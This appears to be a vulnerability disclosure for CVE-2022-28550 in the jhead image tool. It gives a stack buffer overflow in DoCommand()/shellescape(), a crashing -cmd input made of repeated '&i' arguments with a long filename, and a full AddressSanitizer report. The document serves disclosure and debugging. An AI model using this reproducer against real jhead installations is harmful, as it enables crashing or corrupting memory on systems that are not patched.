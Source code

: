 # cmd-jhead-0e98605-shellescape-stack
When the command contains lots of `&i` argument, the stack buffer will overflow.  
https://github.com/Matthias-Wandel/jhead/blob/0e98605d0a08bc692b87ca878bb4dc7bdfc12471/jhead.c#L389-L406  
In `DoCommand()`, jhead calls `shellescape()` to copy strings to stack buffer `ExecString` when it detects a `&i` or `&o`. However, jhead does not check the boundary of the stack buffer `ExecString`. As a result, the stack buffer will overflow when multiple `&i` given.

## Test Environment
Ubuntu 20.04, 64 bit  
jhead (master, 0e98605)

## How to trigger
1. Compile the program with AddressSanitizer
2. Rename a jpeg file to a long name, such as `_imageaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.jpeg`
3. Run command `$ jhead -cmd "&i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &p" ./_imageaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.jpeg`

## Details
### ASAN report
```
$ ./bin_asan/bin/jhead -cmd "&i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &i &p" ./_imageaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.jpeg
=================================================================
==2726675==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffe32482b20 at pc 0x000000504177 bp 0x7ffe3247faf0 sp 0x7ffe3247fae8
WRITE of size 1 at 0x7ffe32482b20 thread T0
    #0 0x504176 in shellescape jhead.c:345:25
    #1 0x504176 in DoCommand jhead.c:393:22
    #2 0x4feae3 in ProcessFile jhead.c:884:13
    #3 0x4feae3 in main jhead.c:1770:13
    #4 0x7f1dbb26d0b2 in __libc_start_main /build/glibc-eX1tMB/glibc-2.31/csu/../csu/libc-start.c:308:16
    #5 0x41f41d in _start (/home/ubuntu178/cvelibf/test/jhead/0e98605/bin_asan/bin/jhead+0x41f41d)

Address 0x7ffe32482b20 is located in stack of thread T0 at offset 12320 in frame
    #0 0x50355f in DoCommand jhead.c:359

  This frame has 5 object(s):
    [32, 12320) 'ExecString' (line 361) <== Memory access at offset 12320 overflows this variable
    [12576, 16682) 'TempName' (line 362)
    [16944, 17088) 'dummy' (line 422)
    [17152, 17296) 'buf' (line 424)
    [17360, 17376) 'mtime' (line 431)
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow jhead.c:345:25 in shellescape
Shadow bytes around the buggy address:
  0x100046488510: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100046488520: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100046488530: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100046488540: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x100046488550: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x100046488560: 00 00 00 00[f2]f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2
  0x100046488570: f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2 f2
  0x100046488580: f2 f2 f2 f2 00 00 00 00 00 00 00 00 00 00 00 00
  0x100046488590: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x1000464885a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x1000464885b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==2726675==ABORTING
```

## Reference
https://github.com/Matthias-Wandel/jhead/issues/51  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28550  

## Credits
ZhengZhang(zhengzhang097@gmail.com)  
Marsman1996(lqliuyuwei@outlook.com)  
Yanhao(unfuzzable123@gmail.com)  